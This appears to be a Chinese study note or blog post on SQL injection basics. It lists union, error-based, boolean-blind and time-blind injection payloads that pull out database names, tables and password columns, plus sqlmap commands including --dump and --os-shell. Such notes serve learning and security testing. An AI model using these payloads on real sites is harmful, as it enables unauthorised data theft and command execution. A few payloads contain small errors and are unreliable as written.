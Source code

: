 ```yaml
---
title: SQL注入基础
date: 2023-12-02 09:37:58
tags: SQL
mathjax: true
---
```


# SQL注入基础

## SQL基础

### 新建数据、表

```sql
create database xxx;
create table xxx;

show database;
```

### 增删查改

```sql
insert into 表名(列1,列2,...) values (v1,v2,...);
#例如：
insert into student(id,name,grade)values(1,'zhangshan',98);
delete from 表名 where 条件;
update 表名 set 字段='值' where;
select */字段列表 from 表名 where;
```

### 举例联合查询

```sql
from oc_user where userName='root' union select * from oc_user where userName='zoneBAI'
```

###  排序

```sql
select * from 表名 order by 列名 #大于列数报错
```

### 常用函数

```sql
length()
limit(a,b) #从a+1开始的b条记录
substr(string string,num start,num length)
ascii()
left(name,2) #name左边第2个字符
right(name,2)
```

### 语句查询

```sql
select database(); #查询当前数据库
select table_name from information_schema.tables where table_schema=database(); #查询当前数据库表名
select column_name from information_schema.columns where table_name='oc_user'
```

## SQL注入基础

### 爆列数、数据库名、表名、列、值

``` sql
order by
union select 1,database(),3
union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()
union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'
union select 1,2,group_concat(username,password) from user--+
```

### concat

```sql
#concat 多个字符串连接成一个字符串
concat(str1,str2,...)
#concat_ws 同上，可一次性指定分隔符
concat_ws(separator,str1,str2,...)
#group_concat 将group by产生的同一个分组中的值连接起来，返回一个字符串结果。
group_concat([distinct]要连接的字段[order by 排序字段 asc/desc])
```

### 报错注入

```sql
#updatexml() 5.1.5+
updatexml(1,concat(0x7e,(select database()),0x7e),1) #前后添加~使其不符合xpath格式而报错

#extractvalue() 5.1.5+
and(extractvalue(1,concat(0x7e,(select database()),0x7e)))
and extractvalue(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema=database()),0x7e))--+ #爆表名
and extractvalue(1,concat(0x7e,(select group_concat(column_name)from information_schema.tables where table_name='users')))--+
```

### 宽字节注入

关键函数：`addslashes`、`mysql_real_escape_string`、`mysql_escape_string`、`magic_quote_gpc`、`magic_quote_gpc`

## SQLmap

常用参数：

```bash
sqlmap -u http://example.com --dbs #跑数据库
sqlmap -u http://example.com -D 数据库名 --tables #跑出指定数据库的表
sqlmap -u http://example.com -D 数据库名 -T 表名 --columns #跑出指定表的列名
sqlmap -u http://example.com -D 数据库名 -T 表名 --C 指定列 --dump #跑出指定列中的值
sqlmap -r *.txt #txt中保存的是BP抓包的请求 可自动分析
```

其他参数：

```
--user 列举数据库管理系统中的用户
--is-dba 检测当前用户是否是管理员
--os-shell 模拟一个可以执行任意命令的shell
--os-cmd 执行命令
--current-user 列举当前用户
--risk 风险等级
--level 检测级别
-proxy=http:// 设置代理
--batch 非交互模式
```

## 盲注

### 布尔盲注

```sql
and left((select database()),1)>'s'--+ #截取库名第一位
and left((select table_name from information_schema.tables where table_schema=database()limit 1,1),1)<'s'
```

### 时间盲注

```sql
and if('s'='s',sleep(5),1)--+ #正确延迟 错误不延迟
and if(left(database(),1)='s',sleep(5),1)--+
and if(left((select table_name from information_schema.tables where schema_name=database()limit 1,1),1)='s',sleep(5),1)--+#爆表
and if(left((select password from users order by id limit 0,1),4)=='dumb',sleep(5),1)--+#爆值
```

### 堆叠注入

